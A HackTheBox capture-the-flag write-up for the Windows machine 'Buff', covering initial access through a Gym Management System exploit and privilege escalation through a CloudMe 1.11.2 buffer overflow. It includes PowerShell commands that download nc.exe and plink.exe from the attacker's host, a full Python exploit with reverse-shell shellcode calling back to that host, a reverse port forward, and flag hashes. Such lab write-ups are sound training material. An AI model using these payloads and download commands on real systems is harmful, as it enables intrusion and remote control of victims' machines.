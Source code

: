 ```yaml
---
tags:
  - HackTheBox
  - Easy
  - B2R
  - Windows
  - Gym-Management-System
  - RCE
  - Buffer-Overflow
  - CloudMe
  - port-forwarding
aliases:
  - 10.10.10.198
---
```


# 10.10.10.198 - Buff [Easy]

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
It is better to have your head in the clouds, and know where you are... than to breathe the clearer atmosphere below them, and think that you are in paradise.
- Henry David Thoreau
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

## Information Gathering
``` bash
root@kali:~/CTF/HackTheBox/Machine/Buff# nmap 10.10.10.198 -p 8080,7680 -sC -oA files/nmap/open-services
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-22 21:43 CEST
Nmap scan report for 10.10.10.198
Host is up (0.037s latency).

PORT     STATE SERVICE
7680/tcp open  pando-pub
8080/tcp open  http-proxy
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: mrb3n's Bro Hut

Nmap done: 1 IP address (1 host up) scanned in 10.76 seconds
```


![2020-07-22-23-01-43.png](2020-07-22-23-01-43.png)

“Gym Management Software 1.0” == **Gym Management System 1.0**
https://www.exploit-db.com/exploits/48506

![2020-07-22-23-04-20.png](2020-07-22-23-04-20.png)

![2020-07-22-23-26-40.png](2020-07-22-23-26-40.png)

`4b5b023a28f09d7bbace384b13095dfe`

## Privilege Escalation
``` powershell
echo $webclient = New-Object System.Net.WebClient >wget.ps1
echo $url = "http://10.10.14.39/nc.exe" >>wget.ps1
echo $file = "nc.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
		
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```
![18471753064989ce956ecd9d34bd149b.png](18471753064989ce956ecd9d34bd149b.png)
``` powershell
Proto  Local Address          Foreign Address        State

  TCP    0.0.0.0:135            BUFF:0                 LISTENING
  TCP    0.0.0.0:445            BUFF:0                 LISTENING
  TCP    0.0.0.0:5040           BUFF:0                 LISTENING
  TCP    0.0.0.0:7680           BUFF:0                 LISTENING
  TCP    0.0.0.0:8080           BUFF:0                 LISTENING
  TCP    0.0.0.0:49664          BUFF:0                 LISTENING
  TCP    0.0.0.0:49665          BUFF:0                 LISTENING
  TCP    0.0.0.0:49666          BUFF:0                 LISTENING
  TCP    0.0.0.0:49667          BUFF:0                 LISTENING
  TCP    0.0.0.0:49668          BUFF:0                 LISTENING
  TCP    0.0.0.0:49669          BUFF:0                 LISTENING
  TCP    10.10.10.198:139       BUFF:0                 LISTENING
  TCP    10.10.10.198:8080      10.10.14.29:48092      ESTABLISHED
  TCP    10.10.10.198:8080      10.10.14.39:40996      CLOSE_WAIT
  TCP    10.10.10.198:8080      10.10.14.39:41084      ESTABLISHED
  TCP    10.10.10.198:49697     10.10.14.39:http       ESTABLISHED
  TCP    10.10.10.198:49707     10.10.14.29:4000       ESTABLISHED
  TCP    127.0.0.1:3306         BUFF:0                 LISTENING
  TCP    127.0.0.1:8888         BUFF:0                 LISTENING
```
https://www.exploit-db.com/exploits/48389
https://bufferoverflows.net/practical-exploitation-part-1-cloudme-sync-1-11-2-bufferoverflow-seh/

Move the CloudMe_1112.exe file locally and testing it on a dev machine.
Minimal sostitutions to 48389.py
``` python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

#msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.39 LPORT=443 -a x86 -f python -b  '\x00\x0A\x0D' --> LEN 351
buf =  b""                                                                                               
buf += b"\xbd\xae\xea\xd2\xc4\xd9\xc3\xd9\x74\x24\xf4\x58\x31"                                           
buf += b"\xc9\xb1\x52\x31\x68\x12\x83\xc0\x04\x03\xc6\xe4\x30"                                           
buf += b"\x31\xea\x11\x36\xba\x12\xe2\x57\x32\xf7\xd3\x57\x20"
buf += b"\x7c\x43\x68\x22\xd0\x68\x03\x66\xc0\xfb\x61\xaf\xe7"
buf += b"\x4c\xcf\x89\xc6\x4d\x7c\xe9\x49\xce\x7f\x3e\xa9\xef"
buf += b"\x4f\x33\xa8\x28\xad\xbe\xf8\xe1\xb9\x6d\xec\x86\xf4"
buf += b"\xad\x87\xd5\x19\xb6\x74\xad\x18\x97\x2b\xa5\x42\x37"
buf += b"\xca\x6a\xff\x7e\xd4\x6f\x3a\xc8\x6f\x5b\xb0\xcb\xb9"
buf += b"\x95\x39\x67\x84\x19\xc8\x79\xc1\x9e\x33\x0c\x3b\xdd"
buf += b"\xce\x17\xf8\x9f\x14\x9d\x1a\x07\xde\x05\xc6\xb9\x33"
buf += b"\xd3\x8d\xb6\xf8\x97\xc9\xda\xff\x74\x62\xe6\x74\x7b"
buf += b"\xa4\x6e\xce\x58\x60\x2a\x94\xc1\x31\x96\x7b\xfd\x21"
buf += b"\x79\x23\x5b\x2a\x94\x30\xd6\x71\xf1\xf5\xdb\x89\x01"
buf += b"\x92\x6c\xfa\x33\x3d\xc7\x94\x7f\xb6\xc1\x63\x7f\xed"
buf += b"\xb6\xfb\x7e\x0e\xc7\xd2\x44\x5a\x97\x4c\x6c\xe3\x7c"
buf += b"\x8c\x91\x36\xd2\xdc\x3d\xe9\x93\x8c\xfd\x59\x7c\xc6"
buf += b"\xf1\x86\x9c\xe9\xdb\xae\x37\x10\x8c\xda\xcd\x14\x6b"
buf += b"\xb3\xd3\x28\x72\xf8\x5d\xce\x1e\xee\x0b\x59\xb7\x97"
buf += b"\x11\x11\x26\x57\x8c\x5c\x68\xd3\x23\xa1\x27\x14\x49"
buf += b"\xb1\xd0\xd4\x04\xeb\x77\xea\xb2\x83\x14\x79\x59\x53"
buf += b"\x52\x62\xf6\x04\x33\x54\x0f\xc0\xa9\xcf\xb9\xf6\x33"
buf += b"\x89\x82\xb2\xef\x6a\x0c\x3b\x7d\xd6\x2a\x2b\xbb\xd7"
buf += b"\x76\x1f\x13\x8e\x20\xc9\xd5\x78\x83\xa3\x8f\xd7\x4d"
buf += b"\x23\x49\x14\x4e\x35\x56\x71\x38\xd9\xe7\x2c\x7d\xe6"
buf += b"\xc8\xb8\x89\x9f\x34\x59\x75\x4a\xfd\x69\x3c\xd6\x54"
buf += b"\xe2\x99\x83\xe4\x6f\x1a\x7e\x2a\x96\x99\x8a\xd3\x6d"
buf += b"\x81\xff\xd6\x2a\x05\xec\xaa\x23\xe0\x12\x18\x43\x21"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + buf))

expl = padding1 + EIP + NOPS + buf + overrun

try:
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target,8888))
        s.send(expl)
except Exception as e:
        print(sys.exc_value)
```

``` powershell
echo '$webclient = New-Object System.Net.WebClient' > wget.ps1
echo '$url = "http://10.10.14.39/plink-x64.exe"' >>wget.ps1
echo '$file = "plink.exe"' >>wget.ps1
echo '$webclient.DownloadFile($url,$file)' >>wget.ps1
		
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1

.\plink.exe -ssh -l root -R 8888:127.0.0.1:8888 10.10.14.39
```
![1cd90c62496ddfac40291e3ccdca6c9f.png](1cd90c62496ddfac40291e3ccdca6c9f.png)
![f22d6b4d0d6c7ddd22d3418e69733305.png](f22d6b4d0d6c7ddd22d3418e69733305.png)
![5f2268f30a39e52d1896668473c6d3b7.png](5f2268f30a39e52d1896668473c6d3b7.png)

`a19f68f858b4464cdc8a7d5415d7bd0f`